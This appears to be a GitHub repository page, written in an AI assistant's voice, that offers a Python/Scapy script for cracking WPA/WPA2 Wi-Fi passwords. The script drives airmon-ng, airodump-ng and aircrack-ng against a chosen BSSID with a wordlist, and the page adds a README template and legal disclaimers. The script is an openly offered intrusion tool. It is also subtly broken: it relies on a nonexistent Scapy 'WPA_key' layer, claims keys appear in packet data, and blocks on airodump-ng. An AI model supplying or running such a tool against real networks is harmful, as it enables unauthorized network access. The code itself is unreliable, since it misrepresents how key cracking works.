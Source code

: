 # wireless-network-penetration-testing

Performing penetration testing on wireless networks, including cracking WEP or WPA/WPA2 keys, involves using specialized tools and libraries like Scapy for packet manipulation and capturing. Below, I'll outline a basic Python script that utilizes Scapy to perform wireless network penetration testing. Note that penetration testing should only be performed on networks you own or have explicit permission to test.

Prerequisites

1. Install Scapy:
pip install scapy
Ensure your wireless network adapter supports monitor mode.

2. Python Script for Penetration Testing with Scapy


import os
import sys
import time
import argparse
from scapy.all import *

# Function to handle sniffed packets
def handle_packet(packet):
    if packet.haslayer(WPA_key):
        print("[+] WPA key found!")
        print(f"    MAC Address: {packet.addr2}")
        print(f"    WPA Key: {packet.info.decode()}")

# Function to perform WPA/WPA2 key cracking
def crack_wpa_key(interface, bssid, wordlist):
    print("[*] Starting WPA/WPA2 key cracking...")
    cmd = f"airmon-ng start {interface}"
    os.system(cmd)

    time.sleep(2)  # Wait for interface to enter monitor mode

    cmd = f"airodump-ng {interface} --bssid {bssid} -w capture"
    os.system(cmd)

    time.sleep(5)  # Capture some packets

    # Sniff for handshake packets
    sniff(prn=handle_packet, timeout=60)

    # Crack the captured handshake using aircrack-ng
    cmd = f"aircrack-ng -w {wordlist} capture-01.cap"
    os.system(cmd)

    cmd = f"airmon-ng stop {interface}"
    os.system(cmd)

# Main function
def main():
    parser = argparse.ArgumentParser(description="Wireless Network Penetration Testing Script")
    parser.add_argument("-i", "--interface", type=str, required=True, help="Wireless interface (e.g., wlan0)")
    parser.add_argument("-b", "--bssid", type=str, required=True, help="BSSID of the target network")
    parser.add_argument("-w", "--wordlist", type=str, required=True, help="Path to the wordlist file for key cracking")
    args = parser.parse_args()

    print("[*] Starting wireless penetration testing...")
    crack_wpa_key(args.interface, args.bssid, args.wordlist)
    print("[*] Penetration testing complete.")

if __name__ == "__main__":
    main()
    
Usage

Save the script as wifi_penetration_test.py and run it from the command line with appropriate arguments:
python wifi_penetration_test.py -i wlan0 -b <BSSID> -w <wordlist.txt>
Replace <BSSID> with the BSSID (MAC address) of the target wireless network and <wordlist.txt> with the path to a wordlist file containing potential passwords for key cracking.

Notes
  * Monitor Mode: Ensure your wireless interface (wlan0 in this example) supports monitor mode for sniffing and injecting packets. You may need to use tools like airmon-ng to enable monitor mode.
  * Legal Considerations: Penetration testing should only be conducted on networks you have permission to test. Unauthorized testing is illegal and unethical.
  * Wordlist: Use a comprehensive wordlist (e.g., rockyou.txt) for key cracking. You can find various wordlists online.
  * Performance: Key cracking can be time-consuming and resource-intensive depending on the strength of the target network's password.
Disclaimer

This script is provided for educational purposes only. Always ensure you have the appropriate permissions before conducting wireless penetration testing. Misuse of this script or any penetration testing tool may lead to legal consequences.

















Creating a README.md file is essential for documenting your wireless network penetration testing script. Below is a template for a README.md file tailored for your Python script using Scapy for performing penetration testing on wireless networks.

Wireless Network Penetration Testing Script
This Python script utilizes Scapy to perform penetration testing on wireless networks, including cracking WPA/WPA2 keys. Please use this script responsibly and only on networks you have explicit permission to test.

Prerequisites
  * Python 3.x installed on your machine
  * Scapy library installed (pip install scapy)
  * Wireless network adapter that supports monitor mode

Usage
1. Clone the repository:
git clone https://github.com/your_username/wireless-penetration-testing.git

2. Navigate to the project directory:
cd wireless-penetration-testing

3. Run the script with the following command:
python wifi_penetration_test.py -i <interface> -b <BSSID> -w <wordlist.txt>

Replace <interface> with your wireless interface name (e.g., wlan0), <BSSID> with the BSSID (MAC address) of the target network, and <wordlist.txt> with the path to a wordlist file containing potential passwords for key cracking.

Script Details
  * wifi_penetration_test.py: Main Python script for wireless network penetration testing.
  * Dependencies: Uses Scapy for packet manipulation and capturing.
  * Functions:
      * crack_wpa_key(interface, bssid, wordlist): Initiates WPA/WPA2 key cracking using airmon-ng and aircrack-ng.
      * handle_packet(packet): Handles sniffed packets to detect WPA key information.

Important Notes
  * Legal Compliance: Ensure you have proper authorization before conducting penetration testing on wireless networks.
  * Monitor Mode: Your wireless network adapter must support monitor mode for packet sniffing and injection.
  * Wordlist: Use a comprehensive wordlist file for efficient key cracking (e.g., rockyou.txt).

Disclaimer
This script is provided for educational purposes only. Misuse of this script or any penetration testing tool may lead to legal consequences. Use it responsibly and at your own risk.

License
This project is licensed under the MIT License.

Copy the content above into a new text file named README.md in your project directory (wireless-penetration-testing). Customize the content with specific details about your script, including usage instructions, dependencies, functions, important notes, and license information.

Feel free to further enhance the README.md file based on additional information or updates to your wireless penetration testing script. Providing clear documentation ensures that users understand how to use the script responsibly and effectively.











